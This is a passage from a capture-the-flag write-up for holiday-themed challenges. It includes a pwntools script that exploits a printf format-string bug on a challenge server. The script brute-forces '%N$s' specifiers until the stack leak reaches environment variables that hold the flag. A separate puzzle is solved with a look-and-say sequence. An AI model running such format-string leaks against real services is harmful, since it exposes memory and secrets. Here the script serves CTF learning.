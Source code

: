 ```C
  puts(flaggHolder[iVar1 % 9]);
```

Lots of things formatted as a flag here, but they are fake. Not really clear where the flag is, but that `echo()` is just `printf`, which is vulnerable to format strings so I'll try mapping the stack.  I really have no idea what I'm doing or what I'm looking for, so I brute-force:

```python
from pwn import *
context.log_level = "CRITICAL"

def check(i):
  s = f"%{i}$s"
  r = remote('grinchisbad.norwayeast.azurecontainer.io', 2424)
  r.recvuntil(b"Grinch is?")
  r.sendline(s.encode("utf-8"))
  try:
    r.recvuntil(b"Maybe so, I don't know,", timeout=1)
  except:
    return
  try:
    data = r.readline(timeout=2).decode("utf-8")
    if not data or data.strip() == "(null)": return
    print("%04d %s"%(i,repr(data)))
  except:
    return
  r.close()
  return data

for i in range(100):
  check(i)
```

Eventually we get into environment variables, and found the flag in CKRET_FLAG.

> `${Grinch_Stole_My_0xD15C0BABE!}`


# Door 14 - Santas Coding Console
> So if you remember reading Santas blog, Santa has taken up coding!
His first attempts didn't go so well, but now he finally created his own funny compiler!

> Hint: I wonder what we are looking at here John...

The console translates everything to emojis, and gives you "syntax error" for pretty much anything you enter. But it seems to count sequential numbers: 11 turns into 21, 1337 into 112317. This is apparently called a [Look-and-say sequence](https://en.wikipedia.org/wiki/Look-and-say_sequence):
> The look-and-say sequence was analyzed by John Conway after he was introduced to it by one of his students at a party.

They are infinite, but we were supposed to guess that they are not on this server.

```python
for seed in range(0,10):
    code = {"code":str(seed)}
    while True:
        r = requests.post(url, json=code)
        if r.status_code == 413: break
        res = r.json()
        if res.get("status") != "NOFLAG":
            print(res)
            sys.exit()
        code = {"code": res.get("result")}
```
